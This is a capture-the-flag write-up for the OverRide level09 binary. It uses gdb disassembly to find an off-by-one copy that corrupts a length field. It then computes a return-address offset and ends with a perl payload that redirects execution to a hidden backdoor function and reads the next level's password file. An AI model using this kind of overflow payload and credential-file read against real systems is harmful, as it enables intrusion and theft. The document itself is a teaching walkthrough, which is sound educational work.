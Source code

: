 # level09

The program reads a username and a message from stdin. It also has a secret function `secret_backdoor`.

## Step 1. Mesure struct size
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:	push   rbp
   0x00000000000008c1 <+1>:	mov    rbp,rsp
   0x00000000000008c4 <+4>:	sub    rsp,0xc0
   0x00000000000008cb <+11>:	lea    rax,[rbp-0xc0]		; 192 bytes
   0x00000000000008d2 <+18>:	add    rax,0x8c			; 140 bytes
   0x00000000000008d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00000000000008df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00000000000008e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00000000000008ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00000000000008f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0 ; 40 bytes set to 0
   0x00000000000008ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c ; 8 bytes
[...]
```
```c
struct mystruct
{
	char first[140];
	char second[40];
	int third;
};
```
According to the disassembly, the program defines a structure like this in the `handle_msg` function.

## Step 2. Find spot to overwrite
``` assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble set_username" level09
[...]
   0x0000000000000a3d <+112>:	mov    DWORD PTR [rbp-0x4],0x0	; initialize i = 0
   0x0000000000000a44 <+119>:	jmp    0xa6a <set_username+157>
   0x0000000000000a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a49 <+124>:	cdqe
   0x0000000000000a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
   0x0000000000000a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a5d <+144>:	cdqe
   0x0000000000000a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
   0x0000000000000a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1	; ++i
   0x0000000000000a6a <+157>:	cmp    DWORD PTR [rbp-0x4],0x28
   0x0000000000000a6e <+161>:	jg     0xa81 <set_username+180>	; if i > 40 break loop
   0x0000000000000a70 <+163>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a73 <+166>:	cdqe
   0x0000000000000a75 <+168>:	movzx  eax,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a7d <+176>:	test   al,al
   0x0000000000000a7f <+178>:	jne    0xa46 <set_username+121>
```
```c
for (int i = 0; i <= 40; ++i)
	// copy buffer to struct
```
In the `set_username` function, the program copy 41 bytes from input buffer to second element of the structure whose size is 40 bytes. So 41st byte overwrite third element of the structure. Now we can overwrite third element who can control how many bytes we can copy to first element of the structure.

## Step 3. Calculate offset
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
   0x00000000000008c0 <+0>:		push   rbp
   0x00000000000008c1 <+1>:		mov    rbp,rsp
   0x00000000000008c4 <+4>:		sub    rsp,0xc0
[...]
   0x0000000000000915 <+85>:	lea    rax,[rbp-0xc0]
   0x000000000000091c <+92>:	mov    rdi,rax
   0x000000000000091f <+95>:	call   0x932 <set_msg>
[...]
```
This is an 64-bit ELF, so every register is 8 bytes. Offset is `0xc0 + 0x8(rbp) = 0xc8(200)`

## Step 4. Find the address of secret backdoor function
```
level09@OverRide:~$ gdb -batch -ex "info functions secret_backdoor" level09
0x000000000000088c  secret_backdoor
```
```
level09@OverRide:~$ gdb -q level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info functions secret_backdoor
0x000055555555488c  secret_backdoor
```
We thought that the binary was compiled with PIE(position-independent executable) option. The absolute address of function must be found at runtime.

## Final step. Build payload
```
level09@OverRide:~$ perl -e 'print "A"x40 . "\xff" . "\n" . "A"x200 . "\x8c\x48\x55\x55\x55\x55\x00\x00" . "\n" . "cat /home/users/end/.pass"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
